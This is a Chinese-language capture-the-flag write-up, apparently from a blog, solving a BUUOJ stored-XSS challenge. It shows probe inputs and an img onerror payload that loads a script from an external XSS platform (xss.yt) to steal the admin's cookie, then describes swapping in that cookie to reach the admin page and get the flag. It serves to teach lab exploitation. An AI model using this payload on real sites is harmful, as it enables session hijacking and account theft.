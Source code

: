 **前言：啊啊啊啊！我蚌埠住了，在网上找的wp就一个两个的，跟着做，作为一个pwn手web萌新理解起来十分不友好，还没通，非常生气，学了一会，自己做通了。于是开始打算自己写个wp给后人，让后面的萌新能够理解的更透彻，少走我的弯路淦。**

咱就是从这个题目入手吧，打开之后是这个界面
![在这里插入图片描述](https://img-blog.csdnimg.cn/6688796b036d4cea8fbcb2d4bf859573.png)
根据题目提示，有[xss](https://so.csdn.net/so/search?q=xss&spm=1001.2101.3001.7020)注入相关内容，查看登录，发现走不通，于是从这个吐槽入手。
输入

```html
<script>alert(1)</script>
1
```

测试一下
![在这里插入图片描述](https://img-blog.csdnimg.cn/0adbf5ae531841d7b6cde48515f477ca.png)
发现没有文字，是不正常的现象。但是也没弹窗，说明存在漏洞，但是可能script被屏蔽了
输入

```html
<img src="#">
1
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/ea7bcd6bf5f1485ea4f09b570490fb35.png)

发现有个图片标志，说明存在漏洞
![在这里插入图片描述](https://img-blog.csdnimg.cn/bd45009b63da45a7a79047105bae8596.png)

则判断存在注入点，XSS注入攻击是一个很大的类，这里我仅从这题出手，这题目是存储型XSS，相关知识自行搜索。[参考](https://blog.csdn.net/L2329794714/article/details/123709249)
具体原理就是相当于我们将我们的[木马](https://so.csdn.net/so/search?q=木马&spm=1001.2101.3001.7020)放到这个网站上了，当别人访问这个网站，我们的木马就会窃取他的cookie等相关信息。这里就是偷取了管理员的cookie

具体操作就是
**先通过吐槽框将我们的payload 提交到服务端，服务端会将这个数据保存并显示在留言板上，只要有人访问这个留言板，就会触发我们的代码。**

**我们的payload 通过在标签中（例如head，body）添加我们自己的XSS平台的javascript源，即每当有人访问留言板就会触发我们的payload 并且会引入我们的JS文件。**

这里就提到一个重点了，自己的XSS平台，这个东西兄弟们可以理解为一个远程木马服务器，如果有访问，我们的服务器上就会获取他的信息。

那么我们应该如何搭建自己的"木马服务器"呢，这里其实网上都有教程，不过需要内网穿透，而我们老白嫖怪了，网上有个免费的在线xss测试平台，这里把链接放出来[XSS平台](https://xss.yt/)
大家自行注册，登录进去后，大家先创一个项目
![在这里插入图片描述](https://img-blog.csdnimg.cn/b98e1d3fc56849a3b6f445217f5223f5.png)
项目中勾取这个代码
![在这里插入图片描述](https://img-blog.csdnimg.cn/2d4d0b70a2664bf88edf3b5d48eeeb52.png)

点击查看代码
![在这里插入图片描述](https://img-blog.csdnimg.cn/b013f59daf24401f935aa2f8aff47b25.png)
如果你读过别人的wp你会发现有个东西很像别人的代码，就是这里
![在这里插入图片描述](https://img-blog.csdnimg.cn/ce28d03b3b984a258edaccad1c9e785e.png)

```html
<img src=x οnerrοr=s=createElement('script');body.appendChild(s);s.src='//xss.yt/SFTX';>
1
```

代码具体意思就是
**它使用>标签的onerror事件来执行一个JavaScript代码块。当图片加载失败时，onerror事件将被触发，从而执行该代码块。该代码块创建了一个script元素，并将其src属性设置为//xss.yt/SFTX。然后，它将该元素添加到文档的头部。这意味着，当页面加载时，该脚本将被下载并执行，从而允许攻击者注入恶意代码并执行任意操作。**
我们复制此代码提交
![在这里插入图片描述](https://img-blog.csdnimg.cn/0a9f47f4ccaf4abb8b7ac7eabfdae731.png)
再访问
![在这里插入图片描述](https://img-blog.csdnimg.cn/79b3c9dc26904a52a80bae56a3bb416f.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/42a15f18030340b8a376c2319662d575.png)
我们发现
![在这里插入图片描述](https://img-blog.csdnimg.cn/3aebffa0430c498ba0c46bd0fb8048bd.png)
已经成功植入代码
回到项目内容查看
![在这里插入图片描述](https://img-blog.csdnimg.cn/517f0a67850d4503b016fca44bdc44ca.png)
发现2个头
![在这里插入图片描述](https://img-blog.csdnimg.cn/f394cf946f8f43a28f16ead7848035bf.png)
在第二个头中我们发现了admin的cookie以及url
![在这里插入图片描述](https://img-blog.csdnimg.cn/c14dd2480e1b4094b696c9901ef41f46.png)

于是我们构造包，访问http://c1ca7eb7-d615-4731-893e-33ae9f28ce2a.node4.buuoj.cn:81/backend/admin.php
ps：可以类比推理出这个文件位置
如果cookie不对，它会显示这个
![在这里插入图片描述](https://img-blog.csdnimg.cn/7a0973231ccb440d922b84f59804a790.png)
把cookie改掉为admin的
![在这里插入图片描述](https://img-blog.csdnimg.cn/a1e551f1573c43808b5d8ef27a588679.png)

获取flag
![在这里插入图片描述](https://img-blog.csdnimg.cn/2169f80ef8294e61890ed38fabada2b2.png)

[XSS 绕过思路 bypass 之日天日地日空气_xss语句bypass-CSDN博客](https://blog.csdn.net/qq_39997096/article/details/109270493?ops_request_misc=&request_id=&biz_id=102&utm_term=XSS / bypass&utm_medium=distribute.pc_search_result.none-task-blog-2~all~sobaiduweb~default-6-109270493.142^v99^pc_search_result_base1&spm=1018.2226.3001.4187)